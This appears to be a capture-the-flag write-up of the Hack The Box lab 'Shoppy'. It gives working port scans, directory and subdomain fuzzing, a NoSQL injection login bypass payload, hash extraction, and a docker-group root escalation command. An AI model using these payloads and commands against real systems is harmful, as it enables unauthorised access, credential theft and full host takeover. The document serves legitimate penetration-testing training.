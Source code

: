 ```yaml
---
layout: post
title: "Shoppy"
date: 2025-04-20 
categories: cpts preparation
---
```

# attack path

First enumerate the open ports then use nmap to scan its service

```bash
rustscan -a 10.129.227.233

result:
Open 10.129.227.233:22
Open 10.129.227.233:80
Open 10.129.227.233:9093

sudo nmap -sC -sV -p 22,80,9093 10.129.227.233

```

Add shoppy.htb to /etc/hosts

Nothing on the site, let’s enumerate subdirectories

```bash
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/common.txt

result:
/Admin                (Status: 302) [Size: 28] [--> /login]
/admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]

```

Spotted the app to be run by nodejs which uses mongodb database which is vulnerable to nosql injection

```bash
In the login form:
username: admin' || '1' == '1

We get logged in
```

Now we get logged in there is a search user function. If the user exist then we get returned a export command which exports user and their hashes. We can use the same method as before to exploit the SQL injection vulnerability:

```bash
search: admin' || '1' == '1
Then click export and we get two users and their password hashes
```

![image.png](/assets/shoppy/image.png)

Found user’s josh’s password through crackstation

We logged in as Josh and see nothing new, let’s try sshing. Does not work.

Let’s try enumerating for subdomains:

```bash
/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt

ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://FUZZ.shoppy.htb -t 10

http://shoppy.htb/admin/

gobuster dir -u http://shoppy.htb/admin/ -w /usr/share/wordlists/dirb/common.txt

ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5
```

For some reason the other ffuf command crashes wifi… 

Found subdomain mattermost. Login as user josh.

We check our sudo privleges

```bash
sudo -l

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
    
That means we can run the binary as the deploy user:

sudo -u deploy /home/deploy/password-manager
```

We find master password and the password manager gave us the credentials for user deploy. Now let’s login as user deploy

we get a shell. Let’s upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Running sudo results nothing. Running id tells us we are in the docker group

Let’s check what docker images there are:

```bash
docker image ls

result:
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

Let’s  mount root inside the container:

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it alpine chroot /mnt bash

And we get a root shell
```